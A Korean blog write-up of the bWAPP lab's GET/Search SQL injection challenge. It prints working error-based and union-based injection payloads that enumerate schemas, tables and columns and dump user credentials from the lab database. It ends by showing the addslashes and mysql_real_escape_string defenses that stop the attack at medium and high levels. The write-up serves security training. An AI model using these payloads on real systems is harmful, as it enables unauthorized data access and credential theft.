 ```yaml
---
layout: single
title: (bWAPP)SQL Injection GET/Search
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/sqli-get/image.png)
- 검색 기능이 존재하며, GET 방식으로 전송된다.
- ‘ (싱글쿼터) 입력을 통해 Error 유/무를 체크해보았다.

![그림 1-2](/assets/image/bwapp/sqli-get/image2.png)
- Error 가 발생되며 DBMS Error 가 페이지상에 노출되고 있다.
- MySQL 로 확인된다.

![그림 1-3](/assets/image/bwapp/sqli-get/image3.png)
- 연결 연산자를 통해 추가 확인을 했다.
- DBMS Error 가 노출되고 있으니 Error Based 공격을 수행했다.

```sql
' and updatexml(null,concat(0x3a,(select database())),null) and '%%'='%
```

> Bee-Box 에서는 updatexml 함수는 사용이 되지 않는다. (다른 환경에선는 정상 작동 함)

- 해당 Bee Box 에서는 Error Based 가 불가능 한 것으로 판단
- Union Based 공격을 수행

![그림 1-4](/assets/image/bwapp/sqli-get/image4.png)

- order by 7 결과 정상적인 출력 확인
- order by 8 결과 Error 발생 확인
- 총 컬럼의 개수는 7개로 확인됨

![그림 1-5](/assets/image/bwapp/sqli-get/image5.png)

```sql
%' union select 1,2,3,4,5,6,7--
```

- 출력 결과의 하단을 보게 되면, union select 결과로 2,3,5,4 총 4개의 출력 구간을 확인
- 출력 포지션을 확인 하였으니, 순차적으로 레코드를 출력 하였다.

```sql
'union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

```sql
'union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
'union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users'--
```

![그림 1-6](/assets/image/bwapp/sqli-get/image6.png)

- 컬럼의 종류를 확인하였으니, 이제 확인 하고자 하는 컬럼의 데이터를 최종적으로 추출함.

```sql
'union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users-- 
```

![그림 1-7](/assets/image/bwapp/sqli-get/image7.png)
- 성공 적으로 Data를 획득 헀다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.